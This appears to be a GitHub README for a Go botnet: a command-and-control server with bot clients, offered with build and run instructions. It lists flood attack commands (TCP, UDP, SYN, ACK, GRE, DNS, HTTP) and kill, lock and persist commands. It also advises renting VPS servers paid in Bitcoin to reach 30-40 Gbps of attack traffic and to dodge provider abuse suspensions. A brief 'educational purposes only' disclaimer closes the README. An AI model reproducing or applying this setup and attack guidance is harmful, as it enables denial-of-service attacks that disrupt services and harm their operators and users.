 # Golang Botnet focused on basic network stressing 
V4 Soon, V4 NOW it in Development as we speak 

https://github.com/1Birdo/GoStress

2024-09-20
Last Botnet Source Release, trying to do more alternative and better projects.


## Overview
This project implements a simple Botnet Control and Command (CnC) server in Go, enabling users to manage connected bots and execute various network attack commands.

## Features
- **User Authentication**: Secure login and credential management.
- **Bot Management**: Connect and manage multiple bots.
- **Attack Execution**: Send commands to bots for executing different types of network attacks.
- **Logging**: Track bot connections and actions.

## Prerequisites
- Go 1.18 or higher
- Terminal/command line interface
- Basic understanding of Go and network programming

**![image1](https://github.com/user-attachments/assets/812f9717-c037-4399-ba57-e9bf4f610326)**


## Installation
1. **Clone the repository**:
   ```bash
   git clone https://github.com/Birdo1221/BotnetGo.git
   cd BotnetGo/cnc
   ```
2. **Install dependencies**:
   ```bash
   go mod init cnc
   go mod tidy
   ```
3. **Build the project**:
   ```bash
   go build -o cnc *.go
   ```
4. **Run the server**:
   If the any of the ports are defined below 1024,
   you will need to run with sudo privilages to bind to that port.
   I would also recommend running using ```screen``` to run with it so it
   doesnt get killed for idle memory usage or kill the process after you close the program
    ```bash
   ./cnc
    
   sudo apt install screen 
   screen ./cnc 
   ```
   
6. **Running the Device / Bot files**:
   You bascially want to enter into the ```bash Devices``` Directory
   and do the exact same you did in the CNC directory
   ```bash
   cd ../device
   ```
   Then to build just run the build.sh script to make all the different arch types,
   but if you just want to build it for standard x86 or just without defining anything just run

    ```bash
    sh build.sh
   ```
    For without defining
    ```bash
     go build -o Botfile bot.go
   ```

## Configuration
Edit the constants in `main.go` to configure:
- **User and Bot Server IPs**: Adjust `USER_SERVER_IP` and `BOT_SERVER_IP`.
- **Server Ports**: Modify `USER_SERVER_PORT` and `BOT_SERVER_PORT`.
- **Killer**: Modify `killerEnabled` to `true` if you want to run on runtime and not when commanded to.

**![image](https://github.com/user-attachments/assets/d5886f8c-1ac4-485d-b88c-b63a0acd51ff)**


## Usage
- Start the server and connect your bots.
- Use the CLI to log in and execute commands.
  ### e.g. Termum, Mobaxterm or Putty
- Attacks command to start an attack:
  ```bash
  !tcpflood <target_ip> <target_port> <duration>
  !udpflood <target_ip> <target_port> <duration>
  !udpsmart <target_ip> <target_port> <duration>
  !syn <target_ip> <target_port> <duration>
  !ack <target_ip> <target_port> <duration>
  !gre <target_ip> <duration> // you will need to send a port anyway
  !dns <target_ip> <target_port> <duration>
  !http <target_ip> <target_port> <duration> // still in the works
  ```
- Alternative command to send:
  ```bash
  !kill
  !lock
  !persist
  ```


  ## Logging in 
1. **How to Login**:
   On Line 290 there is a string that is prompted to be called for before being able to login to it
   e.g. loginforme


2. **Users **:

   After that, you will be prompted to enter a username and password.
   If you don't remember them, you can check the users.json file,
   which contains the login information and more.  

4.  **Future Development/ Power problem **:
 ```
   When searching for a reliable source, one of the most significant concerns is the power it can deliver.
   Many users face challenges when a single source does not meet their expectations,
   they often switch to a differnt source or just abandon their search altogether.

   This source is designed to provide the expected performance. To start fully utilizing this source you
   will need around 10 to 16 servers, each equipped with 1 core and 1 GB 
   of RAM, and an output capacity of 1 Gbps, you can achieve approximately 30 to 40 Gbps for UDP traffic.

   I'd recommend using rental hosts for this purpose, as it allows you to create multiple server instances without
   having to pay an entire upfront cost of buying several servers. On average, with a Command and Control (CNC) server
   to test this would cost around 20 GBP (British Pounds) in Bitcoin.

   You can obtain affordable servers by using a rental VPS service or a budget host.
   However, be aware that VPS providers like OVH, Vultr, or Linode may terminate or suspend
   your VPS due to bandwidth or flooding abuse.
  ```
Performance may vary based on several factors, including:
 ```bash
   *.Packet size
   *.Server output
   *.RTT based on geolocation
   ```
For TCP methods, similar performance can be expected for each methods, typically ranging from 20 to 28 Gbps, though this is also influenced by various conditions.
   
## Disclaimer

#  ```This project is for educational purposes only. Ensure you have permission before testing any network security tools on remote servers. I bear no responsibility or obligation to anyone using this for malicious purposes. ```

DDoS attacks are a serious crime that disrupt critical infrastructure, causing significant damage. Initiatives like Operation PowerOFF and Operation Endgame have highlighted the growing threat, targeting cybercriminals behind DDoS-for-hire services. These operations emphasize that DDoS is no longer just a nuisance but a severe offense with real-world consequences, and those involved face legal repercussions.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
